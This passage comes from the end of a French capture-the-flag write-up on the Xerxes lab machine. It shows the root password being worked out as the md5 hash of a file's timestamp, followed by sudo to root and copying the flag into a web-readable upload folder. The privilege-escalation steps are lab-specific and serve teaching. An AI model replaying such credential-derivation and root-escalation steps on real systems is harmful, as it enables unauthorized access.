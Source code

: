 ```plain
  File: `.last'
  Size: 0               Blocks: 0          IO Block: 4096   regular empty file
Device: 801h/2049d      Inode: 45529       Links: 1
Access: (0644/-rw-r--r--)  Uid: ( 1000/delacroix)   Gid: ( 1000/delacroix)
Access: 2013-12-19 00:19:51.024911360 -0800
Modify: 2013-12-19 00:19:51.024911360 -0800
Change: 2013-12-19 00:19:51.024911360 -0800
  Birth: -
```

Par conséquent le mot de passe du root doit être

```plain
delacroix@xerxes:/home/delacroix$ echo 00:19:51 | md5sum | awk '{print $1}'
6cf49e97c915079e27c09d41da9d95e4
```

On se connecte via *sudo su* comme elle le faisait puis on copie le flag dans le dossier d'upload du début pour pouvoir y accéder :

```plain
delacroix@xerxes:/home/delacroix$ sudo su
[sudo] password for delacroix: 
root@xerxes:/home/delacroix# id
uid=0(root) gid=0(root) groups=0(root)
root@xerxes:/home/delacroix# file /root/flag 
/root/flag: PNG image data, 250 x 269, 8-bit/color RGB, non-interlaced
root@xerxes:/home/delacroix# cp /root/flag /var/www/
dev/        index.html  robots.txt  
root@xerxes:/home/delacroix# cp /root/flag /var/www/dev/upload/
root@xerxes:/home/delacroix# chmod o+r /var/www/dev/upload/flag
```

![Flag capturé](https://raw.githubusercontent.com/devl00p/blog/master/images/xerxes6.png)

Groovy !

*Published March 07 2014 at 06:54*
